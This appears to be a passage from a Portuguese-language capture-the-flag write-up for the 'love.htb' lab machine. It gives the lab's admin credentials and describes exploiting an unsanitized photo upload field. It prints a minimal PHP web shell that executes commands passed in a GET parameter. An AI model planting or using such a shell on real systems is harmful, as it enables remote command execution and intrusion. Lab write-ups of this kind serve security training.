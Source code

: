     Tendo as credenciais de admin, podemos logar na página de ADMIN em **love.htb**.

> Credenciais -> admin:@LoveIsInTheAir!!!!

![](screenshots/login_admin.png)

    Logado no painel, podemos notar que o campo que nos permite modificar informações do usuário nos permite fazer upload de um arquivo de foto, porém o campo não tem sanitização, o que nos permite fazer upload de um shell simples me php.

> Arquivo Shell

```php
<?php
$cmd=$_GET['cmd'];
system($cmd);
?>
```

![](screenshots/upload_rce.png)
